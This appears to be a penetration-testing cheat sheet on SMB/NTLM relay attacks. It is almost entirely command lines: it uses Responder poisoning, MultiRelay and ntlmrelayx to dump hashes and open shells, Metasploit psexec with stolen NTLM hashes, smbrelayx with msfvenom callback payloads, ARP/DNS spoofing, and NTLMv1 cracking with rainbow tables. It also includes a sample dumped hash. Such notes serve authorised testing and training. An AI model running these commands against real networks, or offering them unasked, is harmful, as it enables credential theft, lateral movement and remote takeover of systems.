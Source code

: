 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target> -smb2support` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

### 3. MitM (dnsspoof + arpspoof)
* if no shell/token results from the above attacks, combine classic `responder` + `multirelay/ntlmrelay/smbrelay` with `dnsspoof` + `arpspoof`

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Other shells
### smbrelayx
* `impacket-smbrelayx -h <target> -e <payload-file>`
  - payload can be created with `msfvenom` to communicate back to a meterpreter session
  - `exploit/multi/handler` can be used as a listener meterpreter session

### psexec:
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

### wmiexec:
* `wmiexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

# Cracking NTLMv1
* msf > `use auxiliary/server/capture/smb`
* `rcracki_mt -h <8bytes-hash> *.rti -t <threads-number>` - for the first 8 bytes (16 characters) of the captured hash; use the downloadable .rti rainbow tables
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <password-rcracki>` - for the second half of the captured hash; results are case insensitive
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <full-password-from-previous>` - for the full case-sensitive password

__Rainbow tables__
- http://project-rainbowcrack.com/table.htm
- http://ophcrack.sourceforge.net/tables.php

